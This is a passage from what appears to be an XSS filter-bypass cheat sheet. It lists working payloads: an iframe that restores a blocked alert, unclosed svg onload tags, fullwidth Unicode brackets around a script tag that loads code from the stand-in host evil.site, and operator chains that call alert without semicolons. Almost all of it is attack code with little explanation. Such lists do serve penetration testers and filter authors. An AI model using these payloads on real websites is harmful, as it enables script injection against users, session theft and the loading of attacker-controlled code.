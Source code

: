 Bypass using an alternate way to trigger an alert

```javascript
var i = document.createElement("iframe");
i.onload = function(){
  i.contentWindow.alert(1);
}
document.appendChild(i);

// Bypassed security
XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
      var proxy = obj[name];
      obj[name] = function () {
        if (exec_original) {
          return proxy.apply(this, arguments);
        }
      };
      XSSObject.lockdown(obj, name);
  };
XSSObject.proxy(window, 'alert', 'window.alert', false);
```

### Bypass ">" using nothing

You don't need to close your tags.

```javascript
<svg onload=alert(1)//
```

### Bypass "<" and ">" using ＜ and ＞

Unicode Character U+FF1C and U+FF1E

```javascript
＜script/src=//evil.site/poc.js＞
```

### Bypass ";" using another character

```javascript
'te' * alert('*') * 'xt';
'te' / alert('/') / 'xt';
'te' % alert('%') % 'xt';
'te' - alert('-') - 'xt';
'te' + alert('+') + 'xt';
'te' ^ alert('^') ^ 'xt';
'te' > alert('>') > 'xt';
'te' < alert('<') < 'xt';
'te' == alert('==') == 'xt';
'te' & alert('&') & 'xt';
'te' , alert(',') , 'xt';
'te' | alert('|') | 'xt';
'te' ? alert('ifelsesh') : 'xt';
'te' in alert('in') in 'xt';
'te' instanceof alert('instanceof') instanceof 'xt';
```
